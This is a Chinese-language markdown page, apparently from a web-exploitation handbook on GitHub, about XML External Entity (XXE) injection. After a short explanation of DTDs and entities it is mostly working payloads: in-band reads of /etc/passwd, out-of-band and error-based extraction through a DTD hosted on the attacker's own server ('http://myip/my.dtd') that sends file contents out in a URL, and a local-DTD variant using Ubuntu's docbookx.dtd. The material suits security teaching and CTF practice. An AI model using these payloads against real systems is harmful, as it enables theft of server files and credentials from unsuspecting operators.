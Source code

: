 # EXP手册-XXE Injecton(XML External Entity Injection)
## 基础知识
XXE(XML External Entity),即是XML外部实体注入攻击.漏洞是在对不安全的外部实体数据进行处理时引发的安全问题。   
关键在DTD的引用。   
```
\\实例代码
<?xml version="1.0"?>//这一行是 XML 文档定义
<!DOCTYPE message [
<!ELEMENT message (receiver ,sender ,header ,msg)>
<!ELEMENT receiver (#PCDATA)>
<!ELEMENT sender (#PCDATA)>
<!ELEMENT header (#PCDATA)>
<!ELEMENT msg (#PCDATA)>
```
DTD(The document type definition)，即是文档类型定义，可定义合法的XML文档构建模块。它使用一系列合法的元素来定义文档的结构。DTD 可被成行地声明于 XML 文档中，也可作为一个外部引用。   
```
<!ENTITY 实体名 SYSTEM url > //外部实体
<!ENTITY 实体名 实体的值 > //内部实体
```


入门：  
- [一篇文章带你深入理解漏洞之 XXE 漏洞](https://xz.aliyun.com/t/3357)    
- [XML external entity (XXE) injection](https://portswigger.net/web-security/xxe)
![](https://raw.githubusercontent.com/ReAbout/web-exp/master/images/xxe-injection.svg?sanitize=true)    
## XXE漏洞利用
前提条件：允许外部实体引用。   
按服务端语言有PHP、JAVA、JAVA(Android)一般解析函数都是默认不开启的、Python、libxml。   
漏洞利用方法分：   
- 回显读取文件   
- 不带回显读取文件-OOB(Out of Band）    
- 报错回显读取文件-XXE Base Error   
- 远程执行   
### 0x01回显读取文件
#### payload   
```
<?xml version=”1.0″ encoding=”utf-8″?>

<!DOCTYPE XXE [
<!ELEMENT name ANY >
<!ENTITY XXE SYSTEM "file:///etc/passwd" >]>

<root>
  <name>&XXE;</name>
</root>
```
### 0x02不带回显读取文件-OOB(Out of Band）   
>
OOB XXE 需要使用到DTD约束自定义实体中的参数实体。参数实体是只能在DTD中定义和使用的实体，以 %为标志定义，定义和使用方法如下    
```
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ENTITY normal "hello">  <!-- 内部普通实体 -->
    <!ENTITY normal SYSTEM "http://xml.org/hhh.dtd">  <!-- 外部普通实体 -->
    <!ENTITY % para SYSTEM "file:///1234.dtd">  <!-- 外部参数实体 -->
    %para;            <!-- 引用参数实体 -->
]>
```
而且参数实体还能嵌套定义，但需要注意的是，内层的定义的参数实体% 需要进行HTML转义，否则会出现解析错误。   
```
<?xml version="1.0"?>
<!DOCTYPE test [
    <!ENTITY % outside '<!ENTITY &#x25; files SYSTEM "file:///etc/passwd">'>
]>
```
禁止调用同级实体，无法直接读取文件数据通过http回传我们的服务器，所以要用外部实体才能读取数据。     

#### Payload1：    
my.dtd放于自己服务器的外部实体：   
```
<!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'http://myip/?%file;'>">
%start;
```
注入的内容：   
```
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ENTITY % remote SYSTEM "http://myip/my.dtd">  //调用我们的dtd
    <!ENTITY % file SYSTEM "file:///flag">
    %remote;
    %send;
]>
```
#### Payload2:  
这里已经是三层参数实体嵌套了，第二层嵌套时我们只需要给定义参数实体的%编码，第三层就需要在第二层的基础上将所有%、&、’、” html编码    
ubuntu系统自带的/usr/share/yelp/dtd/docbookx.dtd 包含%ISOamso       
```
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ENTITY % remote SYSTEM "/usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % file SYSTEM "file:///flag">
    <!ENTITY % ISOamso '
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; send SYSTEM &#x27;http://myip/?&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;send;
    '> 
    %remote;
]>
```

### 0x03报错回显读取文件-XXE Base Error 
基于报错的原理和OOB类似，OOB通过构造一个带外的url将数据带出，而基于报错是构造一个错误的url并将泄露文件内容放在url中，通过这样的方式返回数据。   
#### Payload1：    
my.dtd放于自己服务器的外部实体：   
```
<!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'file:///re.about/%file;'>">
%start;
```
注入的内容：   
```
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ENTITY % remote SYSTEM "http://myip/my.dtd">
    <!ENTITY % file SYSTEM "file:///flag">
    %remote;
    %send;
]>
```
#### Payload2:  
这里已经是三层参数实体嵌套了，第二层嵌套时我们只需要给定义参数实体的%编码，第三层就需要在第二层的基础上将所有%、&、’、” html编码    
ubuntu系统自带的/usr/share/yelp/dtd/docbookx.dtd 包含%ISOamso       
```
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ENTITY % remote SYSTEM "/usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % file SYSTEM "file:///flag">
    <!ENTITY % ISOamso '
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; send SYSTEM &#x27;file://re.about/?&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;send;
    '> 
    %remote;
]>
```
### Reference

[Exploiting XXE with local DTD files](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)   
[Blind XXE详解与Google CTF一道题分析](https://www.freebuf.com/vuls/207639.html)  
